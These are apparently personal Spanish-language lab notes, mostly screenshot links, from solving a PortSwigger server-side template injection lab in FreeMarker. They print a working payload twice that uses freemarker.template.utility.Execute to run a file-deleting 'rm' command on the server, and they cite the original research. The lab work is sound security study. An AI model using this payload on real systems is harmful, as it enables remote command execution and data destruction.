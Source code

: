 ![[Pasted image 20221020112941.png]]

![[Pasted image 20221020113132.png]]


![[Pasted image 20221020113204.png]]

Editando un template

![[Pasted image 20221020113312.png]]


![[Pasted image 20221020113403.png]]

Este exploit esta basado en una investigacion que hizo AlbinoWax, de manera que el payload puede quedar asi: {<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }

![[Pasted image 20221020113652.png]]

Al guardarla me redirigue y no me dio ningun error

![[Pasted image 20221020113833.png]]


tengo que ver la pagina para que el payload se ejecute, pero no hace nada, verificando el video de Garr7

borre todo el post y el payload no inicia con una llave, de manera que es asi: 
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }

![[Pasted image 20221020115046.png]]

al guardar los cambios, si el payload esta bien se resuelve el lab

![[Pasted image 20221020115127.png]]

este es el link de la investigacion de albinowax: https://portswigger.net/research/server-side-template-injection

